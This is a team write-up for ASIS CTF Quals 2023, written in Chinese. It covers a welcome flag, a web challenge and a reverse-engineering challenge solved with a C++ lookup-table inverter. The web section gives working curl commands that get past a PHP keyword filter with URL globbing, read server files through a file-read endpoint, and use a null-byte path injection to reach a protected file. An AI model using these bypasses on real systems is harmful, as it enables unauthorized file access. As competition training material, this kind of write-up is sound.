

# ASIS CTF Quals 2023 Writeup

- Team name：`clpcs`

## Greetings

- Flag：`ASIS{w3lc0m3_70_4S1S_C7F!_H3r3'5_70_4n_3xc171n6_4nd_ch4113n63_3xp3r13nc3!}}`

### 解題流程與思路
簽到題。

**解題過程：**
COPY & PASTE

**取得 flag 的畫面：**


## hello

- Flag：`ASIS{good_job_bun}`

### 解題流程與思路

**解題過程：**
1. 給了一個網址，直接連看看 `curl http://45.147.231.180:8000`
2. 得到一份 `php` code 如下，可以知道目標是要取得 `/next.txt`，且於網址中加入 `x` 參數會被拿去 check 是否包含 `file`、`next`，如無責該網頁會執行 `system('curl '.escapeshellarg($_GET['x']))`，可以以 Server 的身分取得某個東西，且因為 escapeshellarg 只能被當成一個參數。
    ```php
    <?php
    /*
    Read /next.txt
    Hint for beginners: read curl's manpage.
    */
    highlight_file(__FILE__);
    $url = 'file:///hi.txt';
    if(
        array_key_exists('x', $_GET) &&
        !str_contains(strtolower($_GET['x']),'file') && 
        !str_contains(strtolower($_GET['x']),'next')
    ){
        $url = $_GET['x'];
    }
    system('curl '.escapeshellarg($url));
    ```
3. 透過 `curl file:///next.txt` 即可取得目標，但會被判到 `file`、`next`，再詳閱 manpage 後發現可以透過 `curl fil[e-f]:///n[e-f]xt.txt` 的方式使 `curl` 訪問 `file:///next.txt`、`file:///nfxt.txt`、`filf:///next.txt`、`filf:///nfxt.txt`，且可以避開字串判斷。
4. 透過 unicode encode `fil[e-f]:///n[e-f]xt.txt` 後，放進 `x`。`curl http://45.147.231.180:8000?x=fil%5Be-f%5D%3A%2F%2F%2Fn%5Be-f%5Dxt.txt`，即可得到以下資訊。
    ```
    wow... so next step is available at http://45.147.231.180:8001/39c8e9953fe8ea40ff1c59876e0e2f28/
    ```
5. `curl http://45.147.231.180:8001/39c8e9953fe8ea40ff1c59876e0e2f28/`，會得以下資訊，得知這個 server 有訪問檔案的功能。
    ```
    did you know i can read files?? amazing right,,, maybe try /39c8e9953fe8ea40ff1c59876e0e2f28/read/?file=/proc/self/cmdline
    ```
6. `curl http://45.147.231.180:8001/39c8e9953fe8ea40ff1c59876e0e2f28/read/?file=/proc/self/cmdline | base64 -d`，出來的解果明顯為 base64 過的值，因此先解回去，而 `/proc/self/cmdline` 放的為執行此 `proc` 時是 command。
    ```sh
    /bin/bun-1.0.2/app/index.js
    ```
7. 而此解果應該為 `/bin/bun-1.0.2 /app/index.js`，所以透過該 Server 取得 `/app/index.js`，`curl http://45.147.231.180:8001/39c8e9953fe8ea40ff1c59876e0e2f28/read/?file=/app/index.js | base64 -d`即可獲得 `index.js`
    ```java
    const fs = require('node:fs');
    const path = require('path')
    
    /*
    I wonder what is inside /next.txt
    */
    
    const secret = '39c8e9953fe8ea40ff1c59876e0e2f28'
    const server = Bun.serve({
    port: 8000,
    fetch(req) {
            let url = new URL(req.url);
            let pname = url.pathname;
            if(pname.startsWith(`/${secret}`)){
        if(pname.startsWith(`/${secret}/read`)){
            try{
            let fpath = url.searchParams.get('file');
            if(path.basename(fpath).indexOf('next') == -1){
                return new Response(fs.readFileSync(fpath).toString('base64'));
            } else {
                return new Response('no way');
            }
            } catch(e){ }
            return new Response("Couldn't read your file :(");
        }
        return new Response(`did you know i can read files?? amazing right,,, maybe try /${secret}/read/?file=/proc/self/cmdline`);
        }
        return
    }
    });
    ```
8. 可以得知目標為 `/next.txt`，且會透過 `path.basename(fpath).indexOf('next') == -1` 確認檔名是否包含 `next`。
9. 由於 `basename` 只會取最後一個 `/` 後的字串，而 `readFileSync` 使用的完整得 path 且字串通常看到 `'\0'` 就會判斷結束，可以基於這些理由構造一個字串。`curl http://45.147.231.180:8001/39c8e9953fe8ea40ff1c59876e0e2f28/read/?file=/next.txt%00/1 | base64 -d`，即可取得以下資訊。
    ```
    Now it's time for a whitebox challenge.
    Find the hidden subdomain and then a secret endpoint and only then you may receive your flag.
    Link to the website: `anVzdCBraWRkaW5nLiBBU0lTe2dvb2Rfam9iX2J1bn0gCg==`
    ```
10. 再解一次 base64 即可取得 flag `echo 'anVzdCBraWRkaW5nLiBBU0lTe2dvb2Rfam9iX2J1bn0gCg==' | base64 -d`
**取得 flag 的畫面：**


## Grid

- Flag：`ASIS{7Hi5_!Z_4n0tH3R_Ea5Y_WaRmUpUp_cHALleN9E!!}`

比賽中主要 codding 人為隊友，但參與解題思路、debug 過程

### 解題流程與思路

**解題過程：**

1. 首先丟進 IDA 工具 reverse。

2. 可以得到下方 source (根據判斷更改過變數名稱)，先找到程式直接執行會印出的 `Incorrect` 。

   

3. 再往前追判斷依據，發現為 `input` 跟 `target `  進行字串判斷，並查找指令從哪裡 load 東西進來。

   

4. 再去追記憶體的資料，然後往下算 `46 bytes`，即為 `input` 應該相同的字串。

   

5. 但往前看會發現 `input` 有經過一些操作，稍加觀察會發現其進行一個查表換值的操作，而可以去追其表所在位置。

   

6. 將該表、`target` 抓下來即可反向查表，尋找 `input` 應該輸入的樣貌。

7. 透過下列程式即可求得，會發現其即為 FLAG。

   ```cpp
   #include <iostream>
   #include <cstring>
   #include <cstdint>
   
   uint8_t DATA[] = {0x01, 0x76, 0x02, 0x2c, 0x03, 0x3b, 0x04, 0x45, 0x05, 0xbd, 0x06, 0xf2, 0x07, 0x92, 0x08, 0x5d, 0x09, 0x91, 0x0a, 0x2d, 0x0b, 0x2e, 0x0c, 0x7f, 0x0d, 0xe9, 0x0e, 0x3c, 0x0f, 0x78, 0x10, 0x9f, 0x11, 0x8a, 0x12, 0xa5, 0x13, 0x71, 0x14, 0x94, 0x15, 0x3f, 0x16, 0xa7, 0x17, 0xdb, 0x18, 0xe8, 0x19, 0xf6, 0x1a, 0xa4, 0x1b, 0x99, 0x1c, 0xe6, 0x1d, 0x22, 0x1e, 0x40, 0x1f, 0xff, 0x20, 0xdc, 0x21, 0xee, 0x22, 0xea, 0x23, 0x24, 0x24, 0x6d, 0x25, 0x58, 0x26, 0x02, 0x27, 0xa2, 0x28, 0xdd, 0x29, 0x86, 0x2a, 0x9e, 0x2b, 0xa1, 0x2c, 0xe1, 0x2d, 0x19, 0x2e, 0xe0, 0x2f, 0x64, 0x30, 0x6a, 0x31, 0xb3, 0x32, 0x5e, 0x33, 0x2b, 0x34, 0xbb, 0x35, 0x38, 0x36, 0x4f, 0x37, 0x30, 0x38, 0x53, 0x39, 0x44, 0x3a, 0x75, 0x3b, 0x65, 0x3c, 0xf9, 0x3d, 0x4b, 0x3e, 0xc1, 0x3f, 0x23, 0x40, 0xb2, 0x41, 0xbe, 0x42, 0xd5, 0x43, 0x05, 0x44, 0x80, 0x45, 0x61, 0x46, 0xfe, 0x47, 0x60, 0x48, 0xe3, 0x49, 0x32, 0x4a, 0x85, 0x4b, 0xf4, 0x4c, 0xcf, 0x4d, 0x5a, 0x4e, 0x3a, 0x4f, 0x43, 0x50, 0xd6, 0x51, 0x6f, 0x52, 0x54, 0x53, 0xb9, 0x54, 0xcc, 0x55, 0xf5, 0x56, 0xb5, 0x57, 0x59, 0x58, 0x16, 0x59, 0xe7, 0x5a, 0xa9, 0x5b, 0xae, 0x5c, 0xf1, 0x5d, 0x08, 0x5e, 0x3e, 0x5f, 0x7d, 0x60, 0xe4, 0x61, 0xde, 0x62, 0xc6, 0x63, 0x1c, 0x64, 0xeb, 0x65, 0xb6, 0x66, 0x97, 0x67, 0x15, 0x68, 0x51, 0x69, 0x7c, 0x6a, 0xad, 0x6b, 0xcd, 0x6c, 0x27, 0x6d, 0x0a, 0x6e, 0x35, 0x6f, 0x5f, 0x70, 0xd4, 0x71, 0x13, 0x72, 0xa0, 0x73, 0x14, 0x74, 0x67, 0x75, 0x7a, 0x76, 0x8c, 0x77, 0x4a, 0x78, 0x72, 0x79, 0x2f, 0x7a, 0xda, 0x7b, 0xef, 0x7c, 0x49, 0x7d, 0x0e, 0x7e, 0xd3, 0x7f, 0xfa, 0x80, 0x3d, 0x81, 0xc0, 0x82, 0x33, 0x83, 0x66, 0x84, 0xaa, 0x85, 0xce, 0x86, 0xfc, 0x87, 0xb0, 0x88, 0x62, 0x89, 0x93, 0x8a, 0x41, 0x8b, 0xd7, 0x8c, 0x48, 0x8d, 0xbf, 0x8e, 0xca, 0x8f, 0xc8, 0x90, 0x03, 0x91, 0x7e, 0x92, 0x0f, 0x93, 0x9b, 0x94, 0xcb, 0x95, 0x56, 0x96, 0xd8, 0x97, 0x79, 0x98, 0x52, 0x99, 0xa3, 0x9a, 0xab, 0x9b, 0x68, 0x9c, 0x42, 0x9d, 0xed, 0x9e, 0x81, 0x9f, 0x84, 0xa0, 0x9c, 0xa1, 0x10, 0xa2, 0x5b, 0xa3, 0x0b, 0xa4, 0x1a, 0xa5, 0x70, 0xa6, 0xf8, 0xa7, 0x63, 0xa8, 0xa6, 0xa9, 0xaf, 0xaa, 0x20, 0xab, 0x98, 0xac, 0x01, 0xad, 0x34, 0xae, 0x29, 0xaf, 0xe2, 0xb0, 0xfb, 0xb1, 0x17, 0xb2, 0x9a, 0xb3, 0xac, 0xb4, 0x04, 0xb5, 0x5c, 0xb6, 0x36, 0xb7, 0xba, 0xb8, 0xd9, 0xb9, 0xb1, 0xba, 0xf7, 0xbb, 0xc3, 0xbc, 0x50, 0xbd, 0xd1, 0xbe, 0xbc, 0xbf, 0xe5, 0xc0, 0x90, 0xc1, 0x25, 0xc2, 0x0c, 0xc3, 0x88, 0xc4, 0xb8, 0xc5, 0x12, 0xc6, 0xd2, 0xc7, 0x1b, 0xc8, 0x47, 0xc9, 0x4d, 0xca, 0xc4, 0xcb, 0x07, 0xcc, 0x1e, 0xcd, 0x87, 0xce, 0x7b, 0xcf, 0x57, 0xd0, 0xf0, 0xd1, 0xfd, 0xd2, 0x55, 0xd3, 0x1d, 0xd4, 0x69, 0xd5, 0xdf, 0xd6, 0x6c, 0xd7, 0x2a, 0xd8, 0xec, 0xd9, 0x6e, 0xda, 0xc7, 0xdb, 0x28, 0xdc, 0x8e, 0xdd, 0xc2, 0xde, 0x82, 0xdf, 0x9d, 0xe0, 0x4e, 0xe1, 0x18, 0xe2, 0x73, 0xe3, 0x95, 0xe4, 0xc9, 0xe5, 0x0d, 0xe6, 0x89, 0xe7, 0x8d, 0xe8, 0x6b, 0xe9, 0x8b, 0xea, 0x46, 0xeb, 0x11, 0xec, 0x21, 0xed, 0x74, 0xee, 0x4c, 0xef, 0x09, 0xf0, 0xf3, 0xf1, 0xc5, 0xf2, 0xd0, 0xf3, 0x83, 0xf4, 0xb7, 0xf5, 0x1f, 0xf6, 0x37, 0xf7, 0xb4, 0xf8, 0x26, 0xf9, 0x06, 0xfa, 0x31, 0xfb, 0x96, 0xfc, 0x39, 0xfd, 0xa8, 0xfe, 0x77, 0xff, 0x8f};
   
   uint8_t targets[] = {0xbe, 0xb9, 0x32, 0xb9, 0xef, 0x30, 0xe3, 0x7c, 0x38, 0x7d, 0xee, 0xa9, 0x7d, 0xbb, 0x35, 0x6a, 0x67, 0xe3, 0x2b, 0x54, 0x7d, 0x61, 0xde, 0x38, 0xe7, 0x7d, 0x59, 0xde, 0x54, 0x0a, 0xf5, 0xd4, 0xf5, 0xd4, 0x7d, 0x1c, 0xe3, 0xbe, 0xcf, 0x27, 0xb6, 0x3a, 0x44, 0x61, 0xee, 0xee, 0x0e};
   
   uint find(uint8_t target){
       for(int i = 0; i < 255; i++){
           if(DATA[i * 2 + 1] == target){
               return i * 2;
           }
       }
       return -1;
   }
   
   int main(){
       for(auto target : targets){
           char tmp = DATA[find(target)];
           std::cout << tmp;
       }
       std::cout << '\n';
       return 0;
   }
   ```

   (事後自己重寫的 code，當初與隊友一起寫的 code 較為凌亂)

 **取得 flag 的畫面：**

